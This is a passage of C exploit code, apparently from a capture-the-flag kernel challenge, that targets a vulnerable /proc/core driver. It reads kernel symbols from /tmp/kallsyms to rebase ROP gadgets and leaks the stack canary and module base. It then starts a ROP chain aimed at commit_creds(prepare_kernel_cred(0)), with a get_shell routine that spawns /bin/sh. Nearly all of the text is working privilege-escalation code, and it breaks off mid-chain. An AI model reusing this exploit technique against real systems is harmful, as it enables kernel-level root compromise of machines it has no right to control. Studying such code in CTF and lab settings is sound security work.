 ```c
}

void get_shell(){
	system("/bin/sh");
}

void get_vmlinux_base(){
	FILE *fd = fopen("/tmp/kallsyms","r");
	if(fd<0){
		printf("[*]openfile /tmp/kallsyms error!\n");
		exit(0);
	}
	char tmp[0x50];
	while(fgets(tmp,0x40,fd)!=NULL){
		if(strstr(tmp,"startup_64")==NULL){
			continue;
		}
		char a[0x20];
		memset(a,0,0x20);
		strncpy(a,tmp,0x10);
		sscanf(a,"%llx",&vmlinux_base);
		break;
	}
	prdi += vmlinux_base;
	prcx += vmlinux_base;
	prdx += vmlinux_base;
	mrdi_rax_call_rdx += vmlinux_base;
	swapgs += vmlinux_base;
	iret += vmlinux_base;
	prepare_kernel_cred += vmlinux_base;
	commit_creds += vmlinux_base;
	printf("[*] vmlinux_base===>%p\n",vmlinux_base);
	printf("[*] commit_creds===>%p\n",commit_creds);
	printf("[*] prepare_kernel_cred===>%p\n",prepare_kernel_cred);
	fclose(fd);
}
int main(){
	save_stats();
	get_vmlinux_base();
	int fd;
	fd = open("/proc/core",O_RDWR);
	if(fd < 0 ){
		printf("Open /proc/core error!\n");
		exit(0);
	}
	char buf[0x100];
	size_t tmps[0x10];
	setoff(fd,0x40);
	core_read(fd,buf);
	for(int i = 0;i<8;i++){
		tmps[i] = *(size_t *)(&buf[i*8]);
		printf("[%d] %p\n",i,tmps[i]);
	}
	canary = tmps[0];
	module_base = tmps[2]-0x19b;
	printf("[*] canary===>%p\n",canary);
	printf("[*] module_base===>%p\n",module_base);
	int i = 8;
	size_t rop[0x20];
	rop[i++] = canary;
	rop[i++] = 0;
	rop[i++] = prdi;
	rop[i++] = 0 ; 
```